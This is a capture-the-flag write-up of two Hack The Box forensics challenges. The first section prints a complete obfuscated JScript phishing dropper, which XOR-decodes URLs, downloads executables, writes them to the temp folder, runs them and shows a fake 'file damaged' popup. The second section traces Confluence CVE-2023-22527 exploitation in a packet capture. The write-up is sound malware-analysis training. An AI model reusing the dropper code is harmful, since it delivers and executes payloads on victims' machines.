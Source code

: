 ![](assets/Pasted%20image%2020241206164932.png)
# Forensics

{% tabs %}

{% tab title="Glowup" %} 

We managed to retrieve some artifacts from a recent phishing incident. To further investigate the attack we need to analyse the provided document. Examine it and find out what the next steps of the malware are.

### Approach

Checking provided zip file. After extracting it I found artifacts.js file.

![](assets/Pasted%20image%2020241202135134.png)

```javascript
var urls = ["loqKjo3E0dGTl4yfl5mMkYuO0JaKnNGJjtOXkJ2Si5qbjdGJlZ2Jx87MzsvR", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0baqvIXOnJiLjZ3Kis+QmaGKls2hrYqMz5CZjaHPjaGQzoqhzZDOi5mWgw==", "loqKjo3E0dGdn4ybm4zQloqc0YmO052RkIqbkIrRzpCEjo6Gj8rH0Q==", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0Q==", "loqKjsTR0YmJidCdnJCQm4mNmpeMm52K0JaKnNGJkYyajoybjY3Ry5LPlY6GysvR", "loqKjo3E0dGVn4yHn4qWn5LQloqc0YmO052RkIqbkIrRzM3P0Q=="],
    activeXObject = "ActiveXObject";

function xd(e, n) {
    for (var t = new Uint8Array(e.length), l = 0; l < e.length; l++) t[l] = e[l] ^ n;
    return t
}

function bnx(e, n) {
    for (var t = atob(e), l = new Uint8Array(t.length), o = 0; o < t.length; o++) l[o] = t.charCodeAt(o);
    return xd(l, n)
}

function dd(e) {
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}

function gop() {
    var e = new activeXObject("Scripting.FileSystemObject"),
        n = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
    return e.GetSpecialFolder(2) + n
}

function snr(e) {
    var n = gop(),
        t = new activeXObject("ADODB.Stream");
    t.Open(), t.Type = 1, t.Write(e), t.Position = 0, t.SaveToFile(n, 2), t.Close(), new activeXObject("WScript.Shell").Run(n)
}

function start(e, n) {
    WshShell = WScript.CreateObject("WScript.Shell"), Text = atob("VGhlcmUgd2FzIGFuIGVycm9yIG9wZW5pbmcgdGhpcyBkb2N1bWVudC4gVGhlIGZpbGUgaXMgZGFtYWdlZCBhbmQgY291bGQgbm90IGJlIHJlcGFpcmVkIChmb3IgZXhhbXBsZSwgaXQgd2FzIHNlbnQgYXMgYW4gZW1haWwgYXR0YWNobWVudCBhbmQgd2Fzbid0IGNvcnJlY3RseSBkZWNvZGVkKS4"), Title = atob("Tm90IFN1cHBvcnRlZCBGaWxlIEZvcm1hdA=="), Res = WshShell.Popup(Text, 0, Title, 64), n && snr(e)
}
for (var i = 0; i < urls.length; i++) var decodedData = bnx(urls[i], 254),
    data = dd(String.fromCharCode.apply(null, decodedData));
```

I made changes to below function and ran JS online

```js
function dd(e) {
    console.log(e)
    return;
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}
```

This logged below result

```
https://miraigroup.htb/wp-includes/wkcw90205/
https://geo-it.htb/css/q3z3ljo394/HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}
https://career.htb/wp-content/0nzppxq49/
https://geo-it.htb/css/q3z3ljo394/
http://www.cbnnewsdirect.htb/wordpress/5l1kpx45/
https://karyathal.htb/wp-content/231/
```

And found the flag `HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}`

{% endtab %}

{% tab title="Merging rivers" %} 

We have noticed lately that some Pages in our Knowledge base have been altered and reflected bad practices! We have checked our Confluence users but we didn't find anything out of place... However, we did have a network capture somewhere that might be of help! Can you help us out by finding how the attacker managed to get access to our Knowledge base? Hopefully when found, we can fix it so it wont happen again!

### Approach

Extracted given zip file. Got capture.pcapng file

![](Pasted%20image%2020241202135547.png)

Checking http protocol as description says this is regarding confluence page.

![](Pasted%20image%2020241202141245.png)

After checking some packets, it was clear that attacker was abusing `CVE-2023-22527`. 
After going through all http packets lastly I found the packet where attacker was trying to get RCE.

![](Pasted%20image%2020241202141540.png)

After decoding the `jwt.private.key` I found the flag.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo SFRCe0FuMHRoM3JfZDR5XzRuMHRoM3JfYzBuZmx1M25jM19SQzMhIX0= | base64 -d
HTB{An0th3r_d4y_4n0th3r_c0nflu3nc3_RC3!!}
```

{% endtab %}

